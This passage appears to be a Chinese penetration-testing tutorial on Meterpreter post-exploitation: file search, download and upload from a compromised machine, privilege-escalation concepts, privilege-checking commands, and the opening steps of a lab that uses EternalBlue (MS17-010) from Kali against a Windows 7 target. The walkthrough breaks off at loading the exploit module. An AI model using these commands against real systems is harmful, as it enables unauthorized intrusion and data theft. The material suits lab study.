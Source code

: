 Meterpreter也支持各种文件系统命令，用于搜索文件并执行各种任务，列如搜索文件，下载文件及切换目录等，相对来说操作比较简单。

pwd或getwd：查看当前处于目标机的那个目录。

getlwd  //查看当前处于本地的那个目录

ls       //列出当前目录中的所有文件

cd     //切换目录

search -f * .txt -d c:\   可以搜索C盘中所有以“.txt”为扩展名的文件，其中-f参数用于指定搜索文件模式 -d 参数用于指定在那个目录下进行搜索

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g665vzfc7xj30w30dhwrf.jpg)

`download c:/test.txt/root `    下载目标机c盘的test.txt文件到攻击机root下

`upload /root/test.txt c:/ ` 上传攻击机root目录下的test.txt文件到目标机C盘下

使用上述命令搜索已被攻陷的目标机，可以获得更多关于目标机的信息。



## 权限提升

通常，我们在渗透过程中很有可能只获得了一个系统的Guest或User权限。低的权限级别将使我们受到很多的限制，在实施横向渗透或者提权攻击时将很困难。在主机上如果没有管理员权限，就无法进行获取Hash，安装软件，修改防火墙规则和修改注册表等各种操作，所以必须将访问权限从Guset提升到User，再到Administrator最后到system级别。

渗透的最终目的是获取服务器的最高权限，即windows操作系统中管理员账号的权限，或Linux操作系统中root账号的权限。：

提升的方式分为以下两类：

- 纵向提权：低权限角色获得高权限角色的权限。列如，一个webshell权限通过提升权限之后拥有了管理员的权限，那么这种权限就是纵向提权，也称作权限升级。

- 横向提权：获取同级别角色的权限，列如，通过已经攻破的系统A获取了系统B的权限，那么这种提权就属于横向提权。

  所以在成功获取目标机的Meterpreter shell后，我们要知道现在已拥有了什么权限。

  

  cmd输入whoami/groups 命令查看我们当前的权限

  meterpreter下输入'getuid ' 命令查看我们当前的权限
  
  background  //把你当前的Meterpreter会话转为后台执行。
  
  sessions -i 1  //回到前来的连接。

### 利用漏洞进行权限提升

一、打开kali和win7查看IP。
(1) Windows7作为靶机
IP：192.168.0.93
(2) Kali作为攻击机（最新版kaili）
IP：192.168.0.82
二、打开kali进入终端输入nmap +IP查看靶机是否开启445端口。
在这里插入图片描述
三、在kali中输入 msfconsole（等待一会可能会有点慢）
四、进入后输人search ms17-010（搜素攻击模块）
在这里插入图片描述
五、找到exploit windows/smb/ms17_010_eternalblue,
运行use exploitwindows/smb/ms17_010_eternalblue
